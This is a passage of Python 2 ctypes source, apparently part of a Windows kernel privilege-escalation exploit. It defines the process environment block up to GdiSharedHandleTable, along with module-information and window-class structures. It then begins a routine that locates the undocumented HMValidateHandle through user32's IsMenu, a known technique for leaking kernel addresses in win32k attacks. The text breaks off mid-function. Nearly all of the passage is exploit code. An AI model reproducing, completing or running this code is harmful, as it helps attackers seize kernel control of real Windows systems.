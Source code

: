 ```
    _fields_ = [("Junk", c_byte * 0xF8),
                ("GdiSharedHandleTable", c_void_p)]

class PROCESS_BASIC_INFORMATION(Structure):
    _fields_ = [("Reserved1", LPVOID),
                ("PebBaseAddress", POINTER(PEB)),
                ("Reserved2", LPVOID * 2),
                ("UniqueProcessId", c_void_p),
                ("Reserved3", LPVOID)]

class SYSTEM_MODULE_INFORMATION(Structure):
    _fields_ = [("Reserved", c_void_p * 2),
                ("ImageBase", c_void_p), 
                ("ImageSize", c_long),
                ("Flags", c_ulong),
                ("LoadOrderIndex", c_ushort),
                ("InitOrderIndex", c_ushort),
                ("LoadCount", c_ushort),
                ("ModuleNameOffset", c_ushort),
                ("FullPathName", c_char * 256)]

WNDPROCTYPE = WINFUNCTYPE(c_int, HWND, c_uint, WPARAM, LPARAM)

class WNDCLASSEX(Structure):
    _fields_ = [("cbSize", c_uint),
                ("style", c_uint),
                ("lpfnWndProc", WNDPROCTYPE),
                ("cbClsExtra", c_int),
                ("cbWndExtra", c_int),
                ("hInstance", HANDLE),
                ("hIcon", HANDLE),
                ("hCursor", HANDLE),
                ("hBrush", HANDLE),
                ("lpszMenuName", LPCWSTR),
                ("lpszClassName", LPCWSTR),
                ("hIconSm", HANDLE)]


def hang():
    kernel32.DebugBreak()
    kernel32.DebugBreak()

    while True:
        time.sleep(60*60*24)

def debug_print(message):
    print message
    kernel32.OutputDebugStringA(message + "n")

def findHMValidateHandle():
    global pHMValidateHandle

    kernel32.LoadLibraryA.restype = HMODULE
    hUser32 = kernel32.LoadLibraryA("user32.dll")

    kernel32.GetProcAddress.restype = c_ulonglong
    kernel32.GetProcAddress.argtypes = (HMODULE,LPCSTR)
    pIsMenu = kernel32.GetProcAddress(hUser32,"IsMenu")
    debug_print("[&gt;] Locating HMValidateHandle()")
    debug_print("t[+] user32.IsMenu: 0x%X" % pIsMenu)

    offset = 0
    pHMValidateHandle_offset = 0
```
